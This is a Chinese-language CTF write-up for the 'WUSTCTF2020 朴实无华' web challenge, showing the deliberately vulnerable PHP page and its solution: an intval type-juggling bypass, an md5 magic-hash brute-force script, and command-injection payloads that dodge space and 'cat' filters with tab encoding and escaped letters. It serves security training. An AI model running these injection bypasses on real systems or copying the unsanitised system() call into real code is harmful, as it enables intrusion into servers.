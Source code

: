 ```yaml
---
title: WUSTCTF2020 朴实无华
date: 2023-01-02 19:04 +0800
categories: [CTF,WEB]
tags: [web,buuctf]
media_subpath: /assets/images/朴实无华.assets
---
```


第一层：robots.txt

```txt
User-agent: *
Disallow: /fAke_f1agggg.php
```

第二层：header头

![image-20230102190519868](image-20230102190519868.png)



```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}

//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

level 1

```php
(intval($num) < 2020 && intval($num + 1) > 2021)
```

intval获取变量对的整数值，这里有两种方法都可以

```php
<?php
$a = '1e11';
echo intval($a);
echo PHP_EOL;
echo intval($a+1);

$a = '0x9999';
echo intval($a);
echo PHP_EOL;
echo intval($a+1);
```

level 2

```
$md5=$_GET['md5'];
if ($md5==md5($md5))
```

md5加密前后都相等，这里参考网上的脚本和答案

```python
import hashlib
i = 0
while True:
    text = '0e{}'.format(i)
    m = hashlib.md5(text.encode()).hexdigest()
    if m[0:2] == '0e' :
        if m[2:].isdigit():
            print(text,m)
            break
    i +=1
# 0e215962017
```

level 3

```php
if(!strstr($get_flag," ")){
	$get_flag = str_ireplace("cat", "wctf2020", $get_flag);
	system($get_flag);
```

(!strstr($get_flag," "))

匹配到空格为FALSE，不能有空格

$IFS 在执行 `ls$IFS/` 是可以的，到后面执行读取命令时，不知道为什么失效



str_ireplace("cat", "wctf2020", $get_flag);

cat 替换成 wctf2020，执行的命令最好不要出现 cat，当然这里可以绕过

?num=0x9999&md5=0e215962017&get_flag=c\a\t%09fll*

?num=0x9999&md5=0e215962017&get_flag=tac%09fll*

![image-20230102185754850](image-20230102185754850.png)

![image-20230102190212349](image-20230102190212349.png)